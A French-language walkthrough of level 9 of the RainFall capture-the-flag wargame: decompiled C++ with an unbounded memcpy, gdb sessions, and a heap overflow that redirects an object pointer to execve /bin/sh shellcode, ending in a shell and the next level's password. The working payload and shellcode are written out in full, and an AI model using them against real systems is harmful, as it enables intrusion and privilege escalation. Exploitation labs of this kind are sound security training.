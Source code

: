 # Level 9

pass : `c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a`

## Sources :
```cpp
#include <string.h>

class N {  // ebp+0x8
public :
	char annotation[100];  // ebp+0x8 + 0x4 | size : 0x64 (0x68 - 0x4)
	int value;  // ebp+0x8 + 0x68

	N(int val) : value(val) {}  // 0x080486f6
	void	setAnnotation(char *str) {  // 0x0804870e
		int len = strlen(str);
		memcpy(annotation, str, len);
	}
	int		operator+(N const &rhs) {  // 0x0804873a
		return value + rhs.value;
	}
	int		operator-(N const &rhs) {  // 0x0804874e
		return value - rhs.value;
	}
};

int		main(int ac, char **av)
{
	if (ac <= 1)
		_exit(1);
	N *a = new N(5);  // esp+0x1c
	N *b = new N(6);  // esp+0x18

	N *c = a;  // esp+0x14
	N *d = b;  // esp+0x10

	c->setAnnotation(av[1]);
	return (*d + *c);
}
```

## Recherche :

Pour faire l'exploit, on va passer par le seul point d'entrée qu'on a, c'est à dire `av[1]`.
Aussi on voit dans l'assembleur que pour appeler `*d + *c`, il fait :
```asm
mov    eax,DWORD PTR [esp+0x10]
mov    eax,DWORD PTR [eax]
mov    edx,DWORD PTR [eax]
```

On va donc essayé d'écire dans `EAX`.

Avec un `pattern create 130` et un `pattern search`, on s'apperçoit que `EAX` est écrit à partir de 108 caractères.

Aussi on va vouloir lancer un shellcode, qu'on va pouvoir remplir dans `c->annotation`.
Pour retrouver l'adresse de `c->annotation`, on peut faire une breakpoint dans `memcpy` et voir les arguments qu'on a :

```gdb
(gdb) b *0x08048510
Breakpoint 1 at 0x8048510
(gdb) r "AAAA"
Starting program: /home/user/level9/level9 "AAAA"

Breakpoint 1, 0x08048510 in memcpy@plt ()
(gdb) x/4x $esp
0xbffff6dc:     0x08048738      0x0804a00c      0xbffff905      0x00000004
```

`c->annotation` est donc `0x0804a00c`, c'est à dire notre 1er argument.

```
(gdb) r $(perl -e 'print "A"x(108)."\x0c\xa0\x04\x08"')
Starting program: /home/user/level9/level9 $(perl -e 'print "A"x(108)."\x0c\xa0\x04\x08"')

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
```

Bien, on a fait notre saut, mais le petit problème, c'est que comme il fait deux fois ` mov    eax,DWORD PTR [eax]`, on est allé à l'adresse `0x41414141` ("AAAA").

On corrige ça en changeant le début par l'adresse suivante :
`\x10\xa0\x04\x08` et en diminuant de 4 la longeur.

Et maintenant on va chercher un shellcode sur internet, comme celui-ci qui fait 28 bytes&nbsp;:
`\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80`

```gdb
(gdb) r $(perl -e 'print "\x10\xa0\x04\x08"."\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"."\x90"x(108-4-28)."\x0c\xa0\x04\x08"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/user/level9/level9 $(perl -e 'print "\x10\xa0\x04\x08"."\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"."\x90"x(108-4-28)."\x0c\xa0\x04\x08"')
process 7262 is executing new program: /bin/dash
$
```

Super !! Un prompt s'est affiché ! Il reste plus qu'à lancer ça en dehors de gdb :)

## Exploit :

```shell
level9@RainFall:~$ ./level9 $(perl -e 'print "\x10\xa0\x04\x08"."\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" . "\x90"x(108-28 -4) . "\x0c\xa0\x04\x08"')
$ whoami
bonus0
$ cd ../bonus0
$ cat .pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
$
```

